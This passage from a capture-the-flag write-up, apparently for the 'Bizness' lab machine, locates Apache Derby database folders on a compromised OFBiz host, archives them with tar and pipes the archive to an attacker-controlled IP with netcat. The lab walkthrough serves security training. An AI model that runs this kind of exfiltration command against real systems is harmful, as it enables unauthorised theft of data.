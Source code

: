 [Derby](https://db.apache.org/derby/) is a:

> an open source relational database implemented entirely in Java.

According to [the
docs](https://db.apache.org/derby/docs/10.0/manuals/develop/develop13.html#HDRSII-
DEVELOP-40724), the database is stored in files in a directory of the same
name as the DB:

> A database directory contains the following, as shown in [Figure
> 2](https://db.apache.org/derby/docs/10.0/manuals/develop/develop13.html#FIGSII-
> DEVELOP-31476):
>
>   * log [directory] - Contains files that make up the database transaction
> log, used internally for data recovery (not the same thing as the error
> log).
>   * seg0 [directory] - Contains one file for each user table, system table,
> and index (known as conglomerates).
>   * service.properties [file] - A text file with internal configuration
> information.
>   * tmp [directory] - (might not exist.) A temporary directory used by Derby
> for large sorts and deferred updates and deletes. Sorts are used by a
> variety of SQL statements. For databases on read-only media, you might need
> to set a property to change the location of this directory. See “Creating
> Derby Databases for Read-Only Use”.
>   * jar [directory] - (might not exist.) A directory in which jar files are
> stored when you use database class loading.
>

#### On Bizness

I’ll search for `seg0` and find three potential Derby DB folders:

    
    
    ofbiz@bizness:/opt/ofbiz$ find . -name seg0
    ./runtime/data/derby/ofbiz/seg0
    ./runtime/data/derby/ofbizolap/seg0
    ./runtime/data/derby/ofbiztenant/seg0
    

#### Exfil

I’ll compress all of them into one file:

    
    
    ofbiz@bizness:/opt/ofbiz/runtime/data$ tar -czf /tmp/0xdf.tar.gz derby
    

I’ll listen with `nc` on my host, and send the archive into it:

    
    
    ofbiz@bizness:/opt/ofbiz/runtime/data$ md5sum /tmp/0xdf.tar.gz                
    cb25d6b5c2cbbac1040520379cdc0e67  /tmp/0xdf.tar.gz
    ofbiz@bizness:/opt/ofbiz/runtime/data$ cat /tmp/0xdf.tar.gz | nc 10.10.14.6 80
    

On my host:
